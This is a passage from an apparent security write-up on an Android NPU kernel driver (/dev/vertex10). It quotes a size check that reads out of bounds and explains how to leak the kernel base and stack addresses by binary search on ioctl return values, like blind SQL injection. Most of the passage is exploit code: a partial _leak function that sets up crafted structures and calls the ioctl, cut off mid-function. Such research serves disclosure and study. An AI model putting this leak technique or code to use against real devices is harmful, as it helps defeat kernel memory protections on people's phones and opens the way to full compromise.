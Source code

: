 ```c++
	...
	for (i = 0; i < FM_cnt; i++) {
		...
		bpp = (formats + i)->pixel_format;
		channels = (formats + i)->channels;
		width = (formats + i)->width;
		height = (formats + i)->height;
		cal_size = (bpp / 8) * channels * width * height;
    ...
#ifndef SYSMMU_FAULT_TEST
		if ((FM_av + i)->size > cal_size) {
			npu_uinfo("in_size(%zu), cal_size(%u) invalid\n", session, (FM_av + i)->size, cal_size);
			ret = NPU_ERR_DRIVER(NPU_ERR_SIZE_NOT_MATCH);
			goto p_err;
		}
#endif
	}
  ...
```

As `(FM_av + i)->size` points to some out of bound range value and `cal_size` consists of pure user supplied data, we can guess what value `(FM_av + i)->size`. 

Some people can ask "how to guess `(FM_av + i)->size`'s value? Because we can't get that value into userspace !".

Yeap. But even though we can't directly get kernel value into userspace application, we can guess it via [binary search](https://en.wikipedia.org/wiki/Binary_search_algorithm) based on ioctl's return value. Like [blind sql injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection), if `(FM_av + i)->size > cal_size` is not satisfied, ioctl interface returns failure value to user. So, we can get kernel base and kernel stack address by using this method.

```c++
unsigned long long _leak(u32 off){
    int res;
    struct vs4l_format format;

leak_retry:
    fd_clear();
    if ((npu_fd = open("/dev/vertex10", O_RDONLY)) < 0){
        goto leak_retry;
    }

    memset(&format, 0, sizeof(format));

    format.stride = 0x0;
    format.cstride =  0x0;
    format.height = 1;
    format.width = 1;
    format.pixel_format = 8;

    unsigned long long g = (0xffffffff) / 2;
    unsigned long long  h = 0xffffffff;
    unsigned long long l = 1;

    ncp_page->memory_vector_offset = 0x200;
    ncp_page->memory_vector_cnt = 0x1;
    ncp_page->address_vector_offset = off;
    ncp_page->address_vector_cnt = 0x1;

    if (npu_graph_ioctl() < 0){
        close(npu_fd);
        fd_clear();
        npu_fd = -1;
```